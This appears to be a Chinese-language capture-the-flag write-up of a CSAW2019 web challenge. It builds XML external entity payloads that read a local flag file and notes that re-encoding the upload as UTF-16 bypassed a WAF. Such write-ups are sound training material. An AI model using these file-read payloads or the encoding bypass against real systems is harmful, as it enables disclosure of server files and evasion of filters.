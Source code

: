 ![[Pasted image 20230215154426.png|500]]

```
/index.php
```

![[Pasted image 20230215154507.png|500]]

```
/user.php
```

![[Pasted image 20230215154544.png|500]]

```
/upload.php
```

![[Pasted image 20230215154614.png|500]]

```
/sample.xml
```

```xml
<?xml version='1.0'?>
<users>
    <user>
        <username>alice</username>
        <password>passwd1</password>
        <name>Alice</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
    </user>
</users>
```

```
/about.php
```

![[Pasted image 20230215154632.png|500]]

尝试进行XXE

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>sad</username>
        <password>114514</password>
        <name>CrackTC</name>
        <email>123@baidu.com</email>  
        <group>&flag;</group>
    </user>
</users>
```

![[Pasted image 20230215170047.png|500]]

遭到了WAF的拦截

转换文件编码为`utf16`后成功绕过

![[Pasted image 20230215171839.png|500]]

`group`属性貌似会被截断，干脆全改上

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>&flag;</username>
        <password>&flag;</password>
        <name>&flag;</name>
        <email>&flag;</email>  
        <group>&flag;</group>
    </user>
</users>
```

![[Pasted image 20230215172853.png|500]]

然鹅都被截断了qaq

最后发现原来还有个`intro`没写在sample里

```xml
<?xml version='1.0'?>
<!DOCTYPE xxe [
	<!ENTITY flag SYSTEM "file:///flag">
]>
<users>
    <user>
        <username>&flag;</username>
        <password>&flag;</password>
        <name>&flag;</name>
        <email>&flag;</email>
        <group>&flag;</group>
        <intro>&flag;</intro>
    </user>
</users>
```

![[Pasted image 20230215173018.png|500]]

#Web #XXE #encoding #bypass